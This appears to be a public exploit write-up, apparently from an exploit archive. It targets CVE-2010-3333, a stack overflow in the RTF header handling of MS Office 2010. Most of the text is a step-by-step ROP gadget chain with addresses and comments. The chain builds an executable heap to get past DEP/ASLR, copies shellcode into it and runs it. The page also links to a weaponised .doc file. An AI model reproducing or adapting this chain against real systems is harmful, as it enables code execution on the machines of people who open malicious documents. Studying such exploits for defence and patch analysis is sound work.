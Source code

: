 EXP
---

    # Exploit Title: MS Office 2010 RTF Header Stack Overflow Vulnerability
    Exploit
    # Date: 7/3/2011
    # Author: Snake ( Shahriyar.j < at > gmail )
    # Version: MS Office <= 2010
    # Tested on: MS Office 2010 ( 14.0.4734.1000) - Windows 7
    # CVE : CVE-2010-3333

    # This is the exploit I wrote for Abysssec "The Arashi" article.
    # It gracefully bypass DEP/ASLR in MS Office 2010,
    # and we named this method "Ikazuchi DEP/ASRL Bypass" : >
    # unfortunately msgr3en.dll loads a few seconds after opining office,
    # so just need to open open Office , and then open exploit after a few
    second and saw a nice calc.
    #
    # The Arashi : http://abysssec.com/files/The_Arashi.pdf
                   http://www.exploit-db.com/download_pdf/17469

    # me : twitter.com/ponez
    # aslo check here for Persian docs of this methods and more :
    http://www.0days.ir/article/

    Exploit:  http://www.exploit-db.com/sploits/cve-2011-3333_exploit.doc


    #
    # and the Rop :

    3F2CB9E0    POP ECX
                RETN
            # HeapCreate() IAT = 3F10115C

    3F389CA5    MOV EAX,DWORD PTR DS:[ECX]
                RETN
            # EAX == HeapCreate() Address

    3F39AFCF    CALL EAX
                RETN
            # Call HeapCreate() and Create a Executable Heap :D
            # after this call, EAX contain our Heap Address.

    0x3F2CB9E0    POP ECX
            RETN
            # pop 0x00008000 into ECX

    0x3F39CB46    ADD EAX,ECX
            POP ESI
            RETN
            # add ECX to EAX and instead of calling HeapAlloc,
            # now EAX point to the RWX Heap :D

    0x3F2CB9E0     POP ECX
            RETN
            # pop 0x3F3B3DC0 into ECX, it is a writable address.

    0x3F2233CC     MOV DWORD PTR DS:[ECX],EAX
            RETN
            # storing our RWX Heap Address into 0x3F3B3DC0 ( ECX ) for
    further use ;)

    0x3F2D59DF     POP EAX
            ADD DWORD PTR DS:[EAX],ESP
            RETN
            # pop 0x3F3B3DC4 into EAX , it is writable address with zero!
            # then we add ESP to the Zero which result in storing ESP into
    that address,
            # we need ESP address for copying shellcode ( which stores in
    Stack ),
            # and we have to get it dynamically at run-time, now with my
    tricky instruction, we have it!


    0x3F2F18CC    POP EAX
            RETN
            # pop 0x3F3B3DC4 ( ESP address ) into EAX


    0x3F2B745E     MOV ECX,DWORD PTR DS:[EAX]
            RETN
            # now ECX point to nearly offset of Stack.

    0x3F39795E    POP EDX
            RETN
            # pop 0x00000024 into EDX

    0x3F39CB44    ADD ECX,EDX
            ADD EAX,ECX
            POP ESI
            RETN
            # add 0x24 to ECX ( Stack address )

    0x3F398267     MOV EAX,ECX
            RETN
            # EAX = ECX ; )

    0x3F3A16DE    MOV DWORD PTR DS:[ECX],EAX
            XOR EAX,EAX
            POP ESI
            RETN
            # mov EAX ( Stack Address + 24 = Current ESP value ) into the
    current Stack Location,
            # and the popping it into ESI ! now ESI point where shellcode
    stores in stack :D

    0x3F398267     MOV EAX,ECX
            RETN
            # EAX = ECX ; )

    3F2CB9E0    POP ECX
            RETN
            # pop 0x3F3B3DC0 ( Saved Heap address ) into ECX

    0x3F389CA5     MOV EAX,DWORD PTR DS:[ECX]
            RETN
            # now EAX point to our RWX Heap

    0x3F2B0A7C     XCHG EAX,EDI
            RETN 4
            # EDI = Our RWX Heap Address


    3F2CB9E0    POP ECX
            RETN
            # pop 0x3F3B3DC0 ( Saved Heap address ) into ECX


    0x3F389CA5     MOV EAX,DWORD PTR DS:[ECX]
            RETN
            # now EAX point to our RWX Heap

    0x3F38BEFB     ADD AL,58
            RETN
            # just skip some junks ; )

    3F2CB9E0    POP ECX
            RETN
            # pop 0x00000080 into ECX ( 0x80 * 4 = 0x200 = Copy lent )

    3F3441B4    REP MOVS DWORD PTR ES:[EDI],DWORD PTR DS:[ESI]
            POP EDI
            POP ESI
            RETN
            # Copy shellcode from stack into RWX Heap


    3F39AFCF     CALL EAX
            RETN
            # KABOOM !!!

    Exploit:  http://www.exploit-db.com/sploits/cve-2011-3333_exploit.doc